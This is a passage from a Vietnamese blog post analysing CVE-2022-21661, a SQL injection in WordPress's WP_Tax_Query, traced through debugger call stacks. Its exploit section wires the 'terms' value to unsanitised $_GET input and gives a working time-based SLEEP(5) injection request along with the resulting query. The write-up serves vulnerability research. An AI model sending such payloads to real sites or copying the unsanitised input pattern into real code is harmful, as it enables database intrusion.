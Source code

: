 `$sql['where']` được gán lại giá trị trước khi trả về.

![callstack 11](assets/img/posts/2025-09-15-CVE-2022-21661/callstack11.png)

`get_sql_for_query` nhận `$sql` trả về từ `get_sql_for_clause`, thêm `()` vào `$sql['where']` và trả về cho `get_sql_clauses`

![callstack 16](assets/img/posts/2025-09-15-CVE-2022-21661/callstack16.png)
`get_sql_clauses` thêm `AND` vào `$sql['where']` và trả về cho `get_sql`.

![callstack 14](assets/img/posts/2025-09-15-CVE-2022-21661/callstack14.png)

`get_sql` trả về giá trị lấy từ `get_sql_clauses`

![callstack 12](assets/img/posts/2025-09-15-CVE-2022-21661/callstack12.png)
`get_posts` lấy giá trị trả về từ `get_sql` gán cho `$clauses`

`$where` được **concat** với giá trị `$clauses['where']`

👉 `get_posts` là hàm chính thực thi SQL query bằng `$wpdb` để biết câu query được thực thi ở đâu, ta đặt **breakpoint** tại nơi có `$wpdb` trong `get_posts`, quan sát `$wpdb > last_query` (chứa câu lệnh thực thi gần nhất) và liên tục <kbd>F10</kbd> để debugger chạy đến nơi thực thi query.

![callstack 13](assets/img/posts/2025-09-15-CVE-2022-21661/callstack13.png)

Lỗi `"Unknown column 'payload' in 'where clause'"` xuất hiện tại **tab debugger** chứa nội dung của payload

👉 `$where` chứa payload được thêm vào `$this->request` tại dòng **3012** và thực thi tại dòng **3026** bằng `$wpdb->get_col()`

**Chart**

![chart](assets/img/posts/2025-09-15-CVE-2022-21661/chart.png)

## Exploit
Ta tùy chỉnh giá trị của `terms` để mô phỏng trường hợp `terms` truyền vào có thể kiểm soát bởi attacker

```php
'terms' => [$_GET['terms']],
```

### Detect SQLi
Thay giá trị của `terms` bằng payload SQLi và gửi request qua **Burp Suite**:

```http
GET /demo/?terms=1)+AND+(SELECT+1+FROM+(SELECT+SLEEP(5))a)+%23+ HTTP/1.1
```

![Detect](assets/img/posts/2025-09-15-CVE-2022-21661/detect.png)

Cấu query thực sự:

```sql
SELECT SQL_CALC_FOUND_ROWS  wp_posts.ID FROM wp_posts  LEFT JOIN wp_term_relationships ON (wp_posts.ID = wp_term_relationships.object_id) WHERE 1=1  AND ( 
  wp_term_relationships.term_taxonomy_id IN (1) AND (SELECT 1 FROM (SELECT SLEEP(5))a) # )
) AND wp_posts.post_type = 'post' AND (wp_posts.post_status = 'publish') GROUP BY wp_posts.ID ORDER BY wp_posts.post_date DESC LIMIT 0, 10
```


[^tax_query]: Vì patch nằm trong file **src/wp-includes/class-wp-tax-query.php** File này định nghĩa class `WP_Tax_Query`, chịu trách nhiệm xử lý tham số `tax_query` trong `WP_Query`. Vì thế, nếu có thay đổi trong file này thì gần như chắc chắn nó liên quan đến quá trình **parse/validate** của `tax_query`. 